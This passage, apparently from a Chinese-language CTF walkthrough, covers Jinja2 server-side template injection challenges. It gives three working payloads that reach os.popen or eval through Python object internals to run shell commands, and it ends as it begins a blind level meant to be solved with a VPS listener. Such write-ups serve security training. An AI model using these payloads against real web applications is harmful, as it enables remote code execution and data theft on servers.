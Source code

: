 [![在这里插入图片描述](assets/1698900310-0068030514aa81917f0e58fb65e97566.png)](https://storage.tttang.com/media/attachment/2022/08/14/90aaa944-2f86-4702-b39d-4317f657f8cb.png)  
构造 payload

```bash
{%print(().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('cat flag').read())%}
```

或者也可以用循环语句

```bash
{%print(url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()"))%}
```

或者那种循环语句，在 level1 中也提及过

```bash
{%for i in ''.__class__.__base__.__subclasses__()%}{%if i.__name__ =='_wrap_close'%}{%print i.__init__.__globals__['popen']('cat flag').read()%}{%endif%}{%endfor%}
```

[![在这里插入图片描述](assets/1698900310-9df9c32eb3988e1eb0d95c1952b3953b.png)](https://storage.tttang.com/media/attachment/2022/08/14/eefc4e22-065d-4615-9ad0-b370f519206d.png)

### [level 3](#toc_level-3)

题目描述  
[![在这里插入图片描述](assets/1698900310-3e4904babaceb8192e85ae5444d9a850.png)](https://storage.tttang.com/media/attachment/2022/08/14/c8d1a0e8-2064-4672-a2bf-25fde757363e.png)  
进入环境简单测试一下，发现只回显正确与错误，如下图  
[![在这里插入图片描述](assets/1698900310-e64bf7c6abbd74821264f319f0a1e30d.png)](https://storage.tttang.com/media/attachment/2022/08/14/d6d8562a-4563-41f3-a7c0-5f874b3326e5.png)  
这个时候就可以考虑用 VPS 监听来获取 flag，具体 payload 的话，我们仍然可以用之前的姿势，将脚本简单改一下就可以，如下所示
